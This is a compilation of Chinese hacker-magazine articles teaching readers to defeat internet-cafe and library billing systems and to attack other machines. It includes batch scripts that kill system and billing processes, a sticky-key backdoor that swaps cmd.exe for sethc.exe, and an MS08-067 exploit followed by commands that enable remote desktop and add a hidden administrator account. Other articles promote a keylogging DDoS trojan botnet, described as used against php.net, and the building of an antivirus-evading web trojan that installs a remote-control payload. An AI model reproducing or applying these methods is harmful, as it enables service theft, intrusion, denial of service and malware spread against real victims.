我就以右下角的图标显示情况来进行说明，在实际操作过程中，虚拟的桌面将不会有原来的桌面图片，为了增加迷惑性，需要把桌面图片改成之前的那个！大家可以对比一下右下角的图标，如图3，可以看到没有输入法，在控制面板中设置一下，还是无法显示出输入法，这可是个问题，上网不能打中文字，那还有什么意思呢？

经过长时间的测试，我终于发现了解决输入法问题的方法：在任务栏上面点击鼠标右键，弹出了快捷菜单，把鼠标移动到“工具栏”上，就会弹出子菜单，看看其中的“语言栏”有没有被选中，如果没有选中，就点击选中“语言栏”，就这样问题解决了。然后就是解决 pubwin 图标的问题了，不然要是网管看到没有 PUBWIN 图标的电脑，他会有什么想法呢？这里我们可以使用 Pubwin2007 伪装破解精灵，主要使用它伪装图标的功能。工具运行后出现了如图 4 所示的界面，点击一下“伪装图标 PubWin.exe”，熟悉的图标就会出现了，如图 5。现在输入法也有了，点 PUBWIN 的图标来看看，如图 6。

到此整个破解就结束了，在其它机器把自己的卡号下了吧，在这台电脑上继续上网，免费的感觉就是好！同时在主机那边还会显示非法开机，大家快去试试吧！

（本文所涉及到的超级防锁专家、Pubwin2007伪装破解精灵已收录到光盘中）

### 看我OE来破解网吧下载限制

无敌小龙

网吧的限制主要集中体现在下载的限制上，只要我们突破了网吧的下载限制就可以下载一系列网吧破解工具，有了这些破解工具就可以对网吧进行深度的破解了，因此本文主要介绍如何对网吧的下载限制进行破解。

可以说目前所有的网吧使用的都是 Windows 操作系统，而微软捆绑型的操作系统在安装时是默认安装 OUTLOOK EXPRESS 这款邮件发送和接收软件的，这就给了我们一个实际可行的破解思路。首先，在可以下载的电脑上发送一封带有下载软件的邮件到你指定的邮箱中，需要注意的是，这个下载软件需要使用 WINRAR 压缩成 RAR 文件，然后以附件的形式发送到指定的邮箱中。因为 OE 是无法打开 EXE 格式的文件的，所以在这里一定要使用 WINRAR 压缩处理。接下来，我们到网吧中上网，打开 IE 浏览器，在工具栏上面找到 OE，点击阅读邮件，如图1。


此时会弹出一个 Internet 连接向导，要求我们输入自己邮件的显示名称，填写你刚才接收邮件的那个用户名称即可，如图2。接下来会要求我们输入邮件地址，在这里填写的地址就是你刚才接收邮件附件的那个邮箱，如图3。

最后会要求输入电子邮件服务器，一个是接收邮件的服务器，一个是发送邮件的服务器。如果你使用的是163的邮箱，就可以在接收邮件的服务器中填写 pop3.163.com，在发送邮件的服务器中填写 smtp.163.com（其它的邮箱可以到相关的网站去查询），如图4。


点击“下一步”按钮，按要求输入你的邮箱帐户和密码，如图5。再点击“下一步”按钮，OE 就会自动被打开了，如图6。


接下来就是关键的步骤了，选择“发送/接收”下的“发送和接收全部邮件”，此时 OE 就会自动检测服务器上面是否有新的邮件，并将其下载下来，如图7。


在 OE 中找到那个带有下载工具附件的邮件，并在下面找到一个类似曲别针的图标，单击后，就会弹出一个快捷菜单来，在其中找到那个附件，如图8，点击附件菜单，在弹出的邮件附件对话框中点击“打开”按钮，如图9。


不一会儿，就弹出了这个下载成功的 DOWNLOAD.RAR 文件，安装这个下载好的超级旋风工具后就可以开始你的下载破解之旅了（可以把你自己的工具放进来，不一定非得是旋风，我这里只是使用旋风来做测试），如图10。

看到这儿，可能会有小菜要问了，为什么 OE 可以破解下载限制呢？其实 OE 在接收文件时就类似于一个下载工具，它把正常的邮件和邮件中的附件全部都下载到本机的硬盘上，所以对于安装了 OE 的系统，也就相当于安装了一个下载工具的系统，这样通过 OE 就可以绕过网吧对下载的限制了。


### 破解金盘之我用粘滞键后门

yyh@稻草人

最近一年来粘滞键后门非常流行，许多小菜都在抓来的肉鸡服务器上安装了它，但是我这次要做的并不是用它来做后门，而是用它来实现免费上网，是不是感觉有些不可思议呢，大家往下看就明白是怎么一回事了。

这天没事就跑到图书馆的电子阅览室来上网，电脑使用的是 Windows XP SP2，并且安装了金盘电子管理系统。我拿出使用了两年的输入法漏洞准备进去免费上网爽一把，可当我按下 Delete 键时却没了反应，看来是老师屏蔽了 Delete 键，我只好先刷卡上机了，同时也想看看使用卡登录系统后是否有什么其它的好办法。经过我的一番尝试，发现电脑只是限制了 Delete 键和 Win 键，并且结账下机后会关闭所有的外部进程，这样的话免费上网可就有些麻烦了。于是我静下心来想其它的办法，这时就想到了粘滞键，结账下机后是否可以启用粘滞键呢？我立即结账下机，快速按了五下 Shift，熟悉的粘滞键弹了出来，如图1。


这就有办法了（经我测试，一般的网吧管理系统是不会屏蔽粘滞键的，大家也可以使用这个方法来免费上网），我的思路是这样的：自己编写一个程序，名字为 Sethc.exe，替换掉系统原来的粘滞键程序。这个程序可以按顺序依次杀死 smss.exe、winlogon.exe、cligold.exe（金盘的守护进程）、client.exe（金盘的主进程），这样在我们结账下机后连续按5次 Shift 就会执行我们的这个程序，这样就可以实现免费上网的目的了！说干就干，由于本人对 C、VB 和 DELPHI 等高级编程一窍不通，只好使用批处理了，代码如下：

```bat
@echo off
::关闭回显
ntsd -c q -pn smss.exe
::结束进程SMSS.EXE
ping 127.0.0.1 -n 1 >nul
::暂停一秒，让上一个命令执行完毕
ntsd -c q -pn winlogon.exe
::结束进程winlogon.exe
ping 127.0.0.1 -n 1 >nul
::暂停一秒，让上一个命令执行完毕
ntsd -c q -pn cligold.exe
::结束金盘的守护进程cligold.exe
ping 127.0.0.1 -n 1 >nul
::暂停一秒，让上一个命令执行完毕
ntsd -c q -pn client.exe
::结束金盘的主进程client.exe
"C:\WINDOWS\system32\1.bat"::执行批处理1.bat恢复桌面
```


将以上内容保存为 sethc.bat，双击运行“批处理潜行者”，点击“目标BAT”，选中我们刚才编写的 sethc.bat，再选中“无CMD窗口”，最后点击“生成”


“EXE”，如图 2，此时会弹出一个对话框，提示我们“文件编译 EXE 成功文件地址，请在目标批处理文件下查找”，我们点击“确定”，如图 3。现在就会在桌面上生成一个名叫“sethcbat.exe”的可执行文件了，如图 4。我们把它重命名为 sethc.exe 以待过会儿使用。

打开“我的电脑”，选择“工具”－“文件夹选项”，如图 5，然后点击“查看”，并把“隐藏受保护的操作系统文件（推荐）”前面的勾去掉，同时选中“显示所有文件和文件夹”，最后点击“确定”，如图 6。

这时使用我们的 sethc.exe 分别替换“C:\WINDOWS\system32\dlcache\”和“C:\WINDOWS\system32\”目录下的 sethc.exe，替换时电脑会弹出一个文件保护对话框，我们依次点击“取消”和“是”，如图 7，图 8。到此为止我们的准备工作就做好了，结账下机，然后快速按五下 shift 键，顺利的进入了。


但是我们每次上网都要先从 U 盘中复制出 sethc.exe，然后显示隐藏文件，再覆盖原来的文件这也太麻烦了，我们需要一种简单的方法，于是我制作了一个可以自动覆盖的文件，把下面的代码保存为 2.bat。

```
@echo off
copy /y C:\WINDOWS\system32\dlcache\sethc.exe C:\WINDOWS\system32\sethc.exe
copy /y C:\WINDOWS\system32\dlcache\1.bat C:\WINDOWS\system32\1.bat
```

再把下面的代码保存为 1.bat。

```
@echo off
tskill /f /im explorer.exe
ping 127.0.0.1 -n 1 >nul
explorer.exe
```

现在我们选中 sethc.exe、1.bat 和 2.bat，点鼠标右键，选择“添加到压缩文件”，如图 9，选择“常规”选项，然后在“压缩选项”中选择“创建自解压格式压缩文件”，并且修改压缩文件名为“破解金盘.exe”，如图 10。我们再切换到“高级”选项，点击“自解压选项”，如图 11，在“解压路径”中填入“C:\WINDOWS\system32\dlcache\”，并把“保存并恢复路径”前的勾去掉，然后在“解压后运行”中填入“2.bat”，如图 12。再切换到“模式”选项，在“安静模式”中选择“全部隐藏”，在“覆盖方式”中选择“覆盖所有文件”，现在配置就全部完成了，点击两次“确定”，如图 13，我们就可以在桌面上看到已经创建好的“破解金盘.exe”文件了。

把这个文件复制到我们的 U 盘中，没有 U 盘的朋友可以保存到网络硬盘中，这样每次来上网时，只要复制出这个文件并双击运行，然后就可以结账下机，结账下机后，快速按五次 Shift 键就可以了，快去免费上网吧！


总结如下：粘滞键有四种方法可以调出。

- 1. 快速按五次 Shift 键
- 2. 按住 Num Lock 键不放五秒钟
- 3. 按左边的 Shift 加 Alt 加 Num Lock 键
- 4. 按左边的 Shift 加 Alt 加 Print Screen Sys Rq 键

这种破解的方法同样适合于没有屏蔽粘滞键的网吧，我们只需要修改一下批处理的代码，然后自己生成就可以了。（本文所涉及到的批处理潜行者、相应的 bat 文件以及生成的 exe 文件已经收录到光盘中）

### 破解网吧收费系统之终结篇

DrEam

#### 一、前言

关于破解网吧收费系统的文章有很多，包括了各种常见的收费系统，诸如pubwin、美萍、万象等，我们这儿的网吧去年还在使用pubwin，可今年就换成了万象了，而且有的是万象2004，有的却是万象2007。相信经常看X档案的小菜在杂志上都看过许多关于网吧破解的文章，但是当自己真动手操作起来，却发现很难成功，正是因为每个网吧的实际情况并不一样，才导致了我们在破解过程中出现了这样那样的问题，作为菜鸟的我也深知各位小菜的痛苦，因此才写下本文，所谓终结版，就是希望菜鸟们看了，能够最大限度的学会破解各种收费系统。

#### 二、理论——分析问题

首先要明确我们的目的，就是为了实现对电脑的破解，做到不用卡也能够上网，我们要做的主要有以下三点：

- 1、在电脑中结束掉相关的收费程序。
- 2、将自启动中的启动项和相关的注册表项删除。
- 3、解决由于远程监控而重启系统的问题。

可以说，做到了以上这三点，对于网吧中的大部分收费系统，就都能够实现破解了。

#### 三、实践——实施破解

从理论上讲，任何的网吧管理程序都是能够破解成功的，所以对于那些还没有成功的朋友，希望他们能够坚持到底并勤于思考，就一定会成功的。下面我以万象为例，来介绍一下破解的过程。

要用到的软件是万象幽灵，启动后的界面如图1所示，先利用万象密码读取功能查出登录密码，然后登录进入万象的后台，取消掉“第几分钟检测与服务端的连接”，如图2。

这样就可以避免远程服务端控制本地电脑重启了，记得有一些文章中提到了关闭Netbios服务的问题，但是却没有说要如何关闭，事实上我们只需要使用一些能查看服务的工具，找到这个服务后关闭就行了（因为大多数网吧中都有许多限制，所以进行的操作最好都选用专门的工具）。接下来我们要用到的工具就是克星之王了，运行后选择网吧破解，然后直接选择“第三式”，取消掉注册表项，然后选择“注销”，如图3。

接着再次打开克星之王，选择网吧破解，选择“第二式”，结束掉选中的程序，如图4，然后选择超强功能，找到自启动检查项，再检查一下启动项，结束并删除就可以了，如图5，最后就是注销系统了（在网吧试验的时候，有时会无法进行注销，甚至是不能重启，有可能是结束了一些别的程序而造成的），可能有读者要问，为什么我们要进行注销呢？这是因为我们前面结束的程序并不一定都是需要结束的，这样就会使电脑上一些正常的程序而无法运行，进行注销后就能解决这个问题了。比如，在本地网吧试验时，我进行破解后，发现一些游戏（crossfire等）无法正常运行了，而注销之后，可以说本地的电脑就被成功的破解了，我们最后要做的就是找另一台电脑，下掉自己的卡就行了。

#### 四、拓展——其他方法

由于每个网吧的实际情况并不完全相同，也就导致了许多小菜按照文章中所介绍的方法进行破解时，并不是百分百就能成功，所以在上面我主要讲的是原理，只要结束了收费系统，并防止电脑重启，能够实现这个目的，使用什么软件和方法那就都不是重点了，至于操作过程中出现的各种问题，还需要小菜们自己进行研究解决。

我要破解的这个网吧的安全做的很好：控制面板禁用了，计算机管理也加了密码，至于其他出现的问题，比如不能注销、程序无法关闭、无反应等等不是本文所讨论的重点，所以就不用理会了。我再给大家提供一个思路，说到这个方法相信大家都非常熟悉了，就是利用“粘滞键后门”，也就是把cmd换成sethc。这样在登录系统时按五下shift键就会调出cmd程序，此时是系统权限，然后利用这个系统权限对本地电脑进行破解，从而达到破解收费系统的目的。

具体操作如下：使用自己的卡登录电脑，调出cmd，然后输入以下命令：ren c:\windows\system32\dllcache\sethc.exe sethc1.exe，copy /y c:\windows\system32\cmd.exe c:\windows\system32\sethc.exe，意思就是先修改系统备份文件夹中sethc.exe的名字，然后将system32目录下的cmd修改成sethc，这样系统就无法自动恢复了，在另一台电脑上登录你的卡，此时本地电脑就会弹出登录框，这时连续按五下shift，就会调出cmd，此时我们拥有最高权限，自然也就可以结束万象系统来实现免费上网了。

在前几期的X档案上有人介绍了超级防锁专家这个软件，但是我在网吧中却试验失败了，虽然这个方法是失败了，但是我又发现了另外一种方法。首先，使用自己的卡登录，然后运行“超级防锁专家”，此时就会多出一个桌面，我们暂称为桌面B，原来的桌面就称为桌面A。切换回桌面A，然后到另外一台电脑上输入自己的卡号和密码，在点登录的一瞬间（由于卡已经在另外一台电脑上登录，所以会出现登录界面），按下WIN+2键，切换到桌面B，也就是使用软件打开的桌面，此时我们就会发现可以正常上网了。


图1 图2 图3 图4 图5

做法也不是很安全，因为无论如何我们都要在另外一台电脑下掉自己的卡，服务端上就会显示该电脑闲置，但事实上我们却在使用着，所以还是容易被发现。对于学黑的小菜来讲，掌握思路才是最重要的，比如我们还可以使用卡卡助手来破解收费系统，因为卡卡助手拥有进程结束、删除启动项和断开网络连接的功能等。不过我还是希望大家能够多多研究，多多看X档案，并把自己的破解技巧和心得发到X档案来和大家一起分享。

#### 五、总结

事实上，破解网吧收费系统是没有多少技术含量的，这种

（本文所涉及到的万象幽灵、克星之王、超级防锁专家已收录到光盘中）

### 虚拟桌面也来免费上网

mayday【S.D.U】

我们学校的电子阅览室使用的也是金盘电子阅览室系统，在以前的黑客X档案上我曾看到过关于它的破解方法，但是使用别人的方法总不如使用自己找出来的方法有成就感，下面我就给大家介绍如何利用虚拟桌面来实现免费上网。

这个免费上网的方法非常简单，如果网吧限制不多的话，使用这个方法在网吧免费上网也是可以的。通常学校的电子阅览室都不会有什么限制，最多也就是有个还原卡之类的，不像在网吧，限制那么多，这就为我们免费上网提供了方便。我们主要用到的是一款叫做“追影虚拟多桌面”的虚拟桌面的软件，如图1。

首先使用自己的帐号登录金盘，如图2，然后打开“追影虚拟多桌面”，此时软件就会自动虚拟出多个桌面，接下来就是注销自己的帐号，注销后按Ctrl+上下左右的箭头就可以切换到不同的桌面了，现在我们就可以发现已经可以免费上网了，但是如果学校限制了多少时间无人登录后就自动关机的话，那这个方法就不行了，所以我们还要在这个虚拟桌面中关闭金盘以及它的守护进程，我们可以编个批处理来结束这两个进程，具体的编写方法大家可以参见以前的X档案，这里我就不多赘述了，一般来说对于学校的电子阅览室，老师是不会巡查的，但是万一巡查了要怎么办呢，我们可以按Ctrl+上箭头切换回去，并重新登录就可以了，如图3。

（本文所涉及到的追影虚拟多桌面V1.0.2已收录到光盘中）


### MS08-067 漏洞助我入侵网吧服务器

黎德乐

前些日子微软公布了最新的MS08067漏洞，这个漏洞的危害性可是非常严重哟，国内的牛人们在第一时间制作出了相应的漏洞利用程序，小菜们只要知道对方的IP地址，就可以利用牛人编写的工具瞬间搞定对方的电脑了，如果我们在网吧里使用的话，同样也可以非常轻松的搞定整个网吧的电脑。

我先简单的介绍一下这个漏洞，漏洞名称为Windows Server服务RPC请求缓冲区溢出漏洞（MS08-067），微软对该漏洞的描述如下，如果用户在受影响的系统上收到特制的RPC请求，则该漏洞就会允许远程执行代码，这个漏洞影响微软的Windows2000、WindowsXP和Windows2003系统，攻击者未经身份验证就可以利用该漏洞远程执行任意代码。漏洞利用工具是在CMD下运行的，因此在网吧中我们要先破解CMD的限制，不会的小菜可以翻看X档案以前的文章，我们在CMD下进入MS08067的目录，然后在命令提示符下输入MS08067.exe，程序的使用格式就会显示出来了，如图1。

比如我们要远程溢出的网吧电影服务器的IP地址是10.8.8.246，就在CMD下输入MS08067.exe 10.8.8.246，溢出成功后，就会成功开启对方的4444端口了，然后我们在CMD下输入TELNET 10.5.8.246 4444去连接刚才溢出成功的电影服务器就会得到对方电脑的一个CMDSHELL。


由于电影服务器是在网吧里面的，所以3389很少开启，那我们就来开启它吧，可以通过注册表来开启对方的3389，由于在XP和2003系统下开启终端是不需要重启系统的，所以在开启后就可以直接登录。将下面的代码一行一行的复制到cmdshell窗口中并按回车执行：

```
echo Windows Registry Editor Version 5.00 >3389.reg
echo. >>3389.reg
echo [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server] >>3389.reg
echo "fDenyTSConnections"=dword:00000000 >>3389.reg
echo [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\Wds\rdpwd\Tds\tcp] >>3389.reg
echo "PortNumber"=dword:00000d3d >>3389.reg
echo [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp] >>3389.reg
echo "PortNumber"=dword:00000d3d >>3389.reg
```

执行完毕后，我们到C盘看看有没有3389.reg，这时就会发现它已经乖乖的躺在里面了，如图2。接下来再执行regedit /s 3389.reg将这个文件导入到注册表中，导入后就可以生效了。现在我们还不能登录，因为还没有登录帐号和密码呢，我们来建立一个系统用户，在命令提示符中执行net user gogo363$ 123 /add和net localgroup administrators gogo363$ /add命令就可以添加成功了。现在就可以登录进去参观了，如图3，图4。


（本文所涉及到的MS08067.exe已收录到光盘中）

### 征途私人服务器完全攻略

将AP0中的R0ffset与RSize值相加（如果数值大的话可以使用16进制计算器计算一下），记住400这个值，现在打开Hex Workshop，将精锐神秘文件夹V0.1.exe载入并找到000000400位置，把这从这行开始一直到最后的那些代码全部复制下来，然后载入unpack_.exe，找到代码的最后位置，即00063000这行，在空白处点粘贴，就会弹出警告，询问是否确认插入，点确定即可，粘贴上的代码其字体变成红色，保存文件后就可以了。再次运行unpack_.exe文件，就发现可以正常运行了。

还有一款外挂程序hxbd1.2.exe，脱壳后也需要进行附加数据的处理，壳的信息为“UPX 0.89.6 - 1.02 / 1.05 - 1.24 -> Markus & Laszlo [Overlay]”，这是一个双重壳，使用2次ESP定律就可以轻松搞定了。

```
004013FB   50             push eax
004013FC   53             push ebx
004013FD   51             push ecx
004013FE   2BC9           sub ecx,ecx
00401400   52             push edx
00401401   56             push esi
00401402   57             push edi
00401403   ^0F84 B3DFFFFF  je hxbd1_2.004011BC
```

UPX壳就脱完了，再次使用ESP定律就可以轻松脱壳程序，使用Microsoft Visual C++ 6.0同样需要附加数据处理，这里就不多说了，留给众位小菜去做练习吧！文章到这里就结束了，没什么技术含量，只是给那些刚入门的新手朋友一些比较容易理解的理论知识以及以前很少介绍过的知识，本人也刚刚学脱壳，还希望与X的新手朋友们共同进步，望高手多多指教。

（本文所涉及到的OD、PEiD、Import REConstructor、LordPE、Hex Workshop、精锐神秘文件夹、外挂程序已收录到光盘中）


### 蚂蚁军团的力量之流量也来洗刷刷

无敌小龙

有许多朋友都拥有自己的网站吧，可是看着干巴巴的流量真是惨不忍睹，今天我就给大家介绍两款好用的工具，来让我们的网站流量洗刷刷。

先来介绍第一款工具——IP流量刷，它可以使用代理浏览指定的网站，因为是通过代理浏览目标网站，所以也就可以让目标网站的流量迅速提高了。打开工具，在最右侧的“HTTP代理IP获取来源”中选择代理中国（大家也可以选择免费代理网或者纯真数据），然后单击“获取代理IP”按钮，可以看到IP列表框中提示正在获取IP代理，耐心地等待一会儿，就可以获得代理IP地址了，如图1。


|  |  |  |
|---|---|---|
| 文件(F) | 查看(V) | 帮助(H) |
| 正在使用的代理 |  |  |
| 运行时间限制：[20] 保存不过[15] | 支持Socks代理与HTTP Server混合使用 |  |
| 输入代理端口： | 欢迎使用代理中国，服务器数据更新，请输入1 |  |
| 访问网络时获取代理列表 |  |  |

现在该代理猎手出场了，运行代理猎手，在主界面的右侧选择“导入结果”按钮，把刚才获取的代理列表导入到工具中（可以把之前获取的IP列表保存为一个文本文件，然后在这里导入），如图2。在代理猎手的主界面中单击“验证全部”按钮，就可以对所有的代理IP地址进行检测了，如图3。


最后，经过代理猎手的检测可以得到验证结果，但是有很多结果都是没用的代理，所以要进行精简。精简的方法是单击“精简结果”按钮，在弹出的对话框中除了free项不选择外，其它的都勾选上，最后点击确定，如图4。

精简之后，在代理猎手的主界面中就只剩下所有free的结果，也就是可用的代理，如图5。


我们把这些代理保存到一个文件中，然后放到IPKing（IP代理刷）中，在“输入网址”栏输入要刷流量的目标网站，我输入的是自己的个人网络硬盘地址，然后点击“开始运行”按钮，现在程序就开始刷起来了，如图6。


来到被刷流量的目标网站，可以看到在线人数变成了5，如图7。使用这样的方法刷出的流量也是真实的，因为使用到了代理来刷目标网站的流量，所以是非常安全和“绿色健康”的，读者朋友还等什么，赶快加入到刷流量的行列中来吧。

（文章中涉及到的工具IP流量刷、代理猎手，已经收录在光盘中）


### 巧破互联星空的多用户共享

王强

电信的“我的E家”广告估计大家都看过吧，主要特点是送无线Modem，同时支持一户最多3台电脑的共享上网。可是当家中电脑多于3台时该怎么实现多用户上网呢？可能有人会说买台路由器或者把原来的无线猫改造为支持多用户共享，但这些方法对于菜鸟来说都不太适合，换路由要加钱，改造既麻烦又危险。于是就有了下面的解决方案！

#### 第一步：获取极速星空拨号密码

按照正常方式启动极速星空软件，进行一次正常的拨号，右键点击“我的电脑”→“管理”→“事件查看器”→“系统”，在右边的事件中会看到名为“RemoteAccess”的事件，双击后如图1所示。其中的“CSDxxxxx”就是帐号，我们把它记录下来。为什么要进行这一步呢？因为电信通过极速星空软件将你原来的帐号CSDxxxx进行了转换，转换结果就如图中所示，至于拨号的密码一般我们会在业务受理单上看到，实在不记得了，还可以拨打10000号申请让电信服务人员上门帮你更换。

#### 第二步：安装EASYSHARE并且进行设置

EASYSHARE是一款国产的免费共享上网软件，它适合诸如如图2所示的这种网络模式结构，支持通过软件的方式来破解电信“我的E家”共享上网。下载后，一路点击NEXT就可完成安装了。给所有的电脑都安装上EASYSHARE软件并定义所有电脑的IP地址如下：

| 电脑 | 网络参数 |
| --- | --- |
| PC机1 | IP地址：192.168.1.2<br>子网掩码：255.255.255.0<br>默认网关：192.168.1.254<br>DNS服务器：当地ISP指定地址 |
| PC机2 | IP地址：192.168.1.3<br>子网掩码：255.255.255.0<br>默认网关：192.168.1.254<br>DNS服务器：当地ISP指定地址 |

如果以后有更多的电脑，则只要将IP地址设置为前三段相同、末位不同，比如第3台电脑IP为192.168.1.4，第4台为192.168.1.5……其它网关和DNS部分完全相同。启动任意一台电脑的EASYSHARE，当它第一次启动时如图3所示，点击“上网设置”，分别设置好“家庭上网方式”及“上网的物理网卡”，在ADSL宽带密码处填入第一步得到的帐号和密码。全部完成后点下方的“保存设置”，然后再点击“系统状态”→“开始连接”，正常的话如图4所示。


它的工作原理就是将局域网中第一台启动EASYSHARE的电脑自动作为主机，其它启动EASYSHARE的电脑自动作为客户机。

最后，为了能够保证所有电脑共享上网正常，在软件设置中将EASYSHARE定义为随Windows启动，任何一台先启动的电脑都会自动拨号，而其它的电脑则直接共享上网。

EASYSHARE在使用过程中有时会遇到一些问题，我从网上收集了一些常见问题和解决方法如下：

- **1、为什么我点击“开始连接”按钮时提示PPPoE驱动失败？**  
  这是因为EasyShare的驱动程序没有安装成功，我们可以查看选中物理网卡的属性，确认是否已经有“EasyShare Filter Driver”存在，并且复选框是选中状态。如果已经存在并且复选框也选中，那么就重新启动电脑后再试试看。如果没有看到该项目的存在，则再次运行安装程序即可。若还失败，则可能是电脑安装的杀毒或安全软件禁止了安装时添加驱动程序的操作，将杀软或安软退出重新安装。

- **2、为什么提示网络连接成功，但是我仍然无法访问网站？**  
  这可能是因为你的DNS设置不正确造成的，将该DNS设置到每个需要上网的电脑上。另外与默认网关设置也有关系，此处的默认网关应该是网络中并不存在的IP地址，即虚拟网关，一定不能定义为原无线Modem的地址，比如192.168.1.1，否则即使显示连接成功，却也不能上网的。

（本文所涉及到的EASYSHARE已经收录到光盘中）

### 菜鸟的好帮手——完美DDoS

云中鹰

小浩同学开发了一款DDoS工具，使用C++独立编写的代码，几乎集合了市面上所有攻击软件的优点，在他开发完成时我向他要了一份，测试了一下效果，感觉很不错，特拿出来和菜鸟们分享。

#### 一、配置服务端

运行完美DDoS，其界面如图1所示。


点击工具栏中的“生成服务端”来创建服务端程序，从弹出的“生成服务端”窗口中我们可以看到，服务端程序有两种上线方式：分别为DNS上线方式和FTP上线方式。但是DNS上线方式有一点不好的地方，就是端口不可以更改。它还可以自定义服务显示名、服务名和服务描述，这样可以更好地进行伪装，以躲过管理员的查杀。同时它还具有U盘传播的功能，如果感染者重装了系统，当对方双击打开本地磁盘的时候，我们的肉鸡又将归来。生成后的服务端大小只有25K，加个压缩壳将更小，非常方便下载和传播，如图2。


#### 二、控制服务端

当运行了服务端的电脑上线后，我们就可以控制对方了，在控制中可以点右键使用“文件管理”功能和“键盘记录”功能，如图3。由于是DDoS工具，远程控制方面的功能可有可无，因此我就不为大家介绍这些功能了。完美DDoS的攻击方式主要有ICMP洪水、SYN洪水、TCP并发式连接、UDP洪水、TCP并发攻击、GET攻击、CC攻击、CC变异和IIS多连接。攻击强度分为疯狂、强和普通三种。可以设置当服务端上线后自动攻击指定的目标，无需手动设置，还可以分组攻击，同时攻击N个目标。它还具有批量下载功能，全选所有肉鸡下载也可以达到DDoS的效果。


图4

#### 三、攻击效果测试

光说不练可不行，我们还是看看它的实际效果吧。我们就以php的官方网站php.net来进行测试。选定80台肉鸡，设置的攻击方式是无限CC攻击，如图4。单击“攻击”后，过了几秒钟php的官方网站php.net就不能够访问了，如图5。


图5

这款DDoS的攻击效果还是相当不错的！

#### 四、服务端隐蔽性

完美DDoS的隐蔽技术是同类软件中从未出现过的，运行后无端口，无进程，抗查杀性很强。为菜鸟们推荐这款木马，一是因为它的服务端体积小、攻击效果强悍；二是因为它的隐蔽技术，最主要的还是因为这个木马比较新，即使以后被查杀了，由于比较新，对服务端的免杀也会相对容易些。

（本文所涉及到的完美DDoS黑客X档案专版已经收录到光盘中）

### 揭开网页木马的神秘面纱

小地瓜

不知从什么时候起，网络上开始流行起网页木马攻击技术，至今还被很广泛地应用。相信没有接触过网马的朋友一定对此技术很好奇吧，当然也不排除你想当“警察”，揪出藏在网页深处的木马，那么请看下面的网页木马全程揭秘吧。

#### 一、准备工作

在制作网页木马前，我们需要先准备好自己的木马，这里以PcShare为例。打开PcShare，依次点击上方“设置”→“生成客户端”选项，在弹出的“被控制端执行程序参数”对话框内将自己本机的IP地址以及想要生成的服务端名称填入到相应的位置，其它参数保持默认即可，如图1，点击“生成”按钮选择好保存木马的路径，一款功能强大的木马服务端就生成了。把生成的服务端程序上传到自己的空间里，对于没有自己空间的小菜，我推荐使用GooglePages。假设现在已经获得了木马链接地址为“http://wenpeng.googlepages.com/muma.exe”。


图1

#### 二、生成网页木马

运行“黑手2008免杀网马”客户端程序，在弹出的“软件生成器”界面内勾选上“漏洞选项”栏内的所有选择框，这样生成的网页木马才能突破被选中的漏洞，如图2。接下来在地址栏内输入刚才的木马链接地址“http://wenpeng.googlepages.com/muma.exe”，选择生成网马的方式。这里提供了两种方式，一种是HTML网页形式，另一种是GIF图片格式。如对于新手朋友，我建议选择HTML网页形式，单击“生成”按钮后就会在当前目录内生成多个网页木马文件了。如果你对生成的网页木马文件有些不放心，还可以在本机使用各种杀毒软件对生成的木马文件进行查杀，相信你得到的都是安全的普通文件。其原因很简单，黑手对网页木马中的漏洞溢出代码进行了多次变化和加密，使得那些只按照特征码来查杀的杀毒软件根本就无法检测到恶意代码的存在，从而保证了网页木马的安全。


那么网页木马是如何实现免杀的呢？

我们使用记事本打开其中一个网页木马，以“迅雷”为例，在弹出的“迅雷”文本内，可以清楚地看到网页源码竟然是一些非常奇怪的数字，而杀毒软件对这些数字无法识别，根本判断不出来它就是网页木马，如图3。如果我们把这些恶意代码插入到一个正常的网页里，那么就可以实现挂马的目的了。当然这只能对有迅雷漏洞的电脑进行攻击，如果要想对所有漏洞都进行攻击，我们就需要将刚才生成的所有网页木马全部以记事本方式打开并复制里面的代码，全部插入到一个正常的网页内，这样当其它存在各种各样漏洞的电脑浏览该网页时就会受到攻击，我们之前配置的远程木马就会在他们的机器中运行，从而达到远程控制的目的。

#### 三、解密网页木马

有加密自然就会有解密，由于网页木马是一段特殊的数字，所以通过杀毒软件检查是很难发现其中的猫腻，我给大家介绍一下网页木马是如何进行加密的，同时还要告诉大家如何来解密这些网页木马。我们使用记事本再次打开刚才生成的“迅雷”网页木马，可以清楚地看到最下面的代码如下：

```
t=eval(String.fromCharCode("113,118,52,56,50,49,50,51,52"));
document.write(t)
```

以上代码的含义是将JS加密部分赋值成t，然后利用document.write输出执行。了解以上代码的含义，我们对其进行解密就变得容易多了，只要采用字符替换的方式就可以还原代码。这里将document.write改成alert，然后保存文件，在使用IE浏览器打开该页时，就会显示出被加密前的真实代码了。如果网页木马的代码比较多的话，弹出的对话框可能一下不能显示完全，所以我们需要使用“XMP”标签法来进行解密，具体代码如下：

```
document.write("<xmp>" + t + "</xmp>")
```

输入完毕后将其保存并重新刷新网页，此时网页的中间位置就会显示出真正的源代码。不过此代码被逆序过，还是很难看清楚，还要将其继续解密，方法同之前相同。将网页中显示的所有代码复制到记事本中，其明文代码最后是document.write(streverse(q28009550,value))，我们将其直接更改为document.write(streverse("<xmp>"+q28009550,value)+"</xmp>")，然后保存，再使用IE浏览器打开该页，就可以清楚地看到该网页木马的最终代码了。不管以后遇到哪种网页木马，利用此方法你都可以轻松地将其解密，从而使其不能再生根下去了。


（本文所涉及到的PcShare、黑手2008免杀网马生成器已收录到光盘中）

### 制作陷阱之SHS碎片文件

独孤梦

前几天我在学习的时候，无意中打开了一个图标和文本文件差不多的文件，系统就闪过一个CMD窗口，然后我听到硬盘不停地响着……我想这回又中招了，郁闷呀……到网上一问，才知道打开的那个文件其实是一个SHS文件，那么何谓SHS文件呢？SHS文件是一类特殊的OLE（Object Linking and Embedding，对象链接和嵌入）对象，可以由Word文档或Excel电子表格创建。通过选择文档中文本或图像的一块区域，然后拖放该区域到桌面上的某处，就可以创建一个Windows碎片对象或称SHS文件（此文件是不可读文件），我们也叫它“碎片文件”！关于SHS文件的说明在百度上有很多，有兴趣的话大家可以去查查。

现在知道了是这个文件了，可是那个CMD窗口又是怎么回事呢？难道是运行了什么CMD命令？我带着这个疑问开始翻阅大量杂志、教材，向别人请教了很多才搞懂这个SHS文件的运行方式。下边我就把自己的一些心得和大家说说！

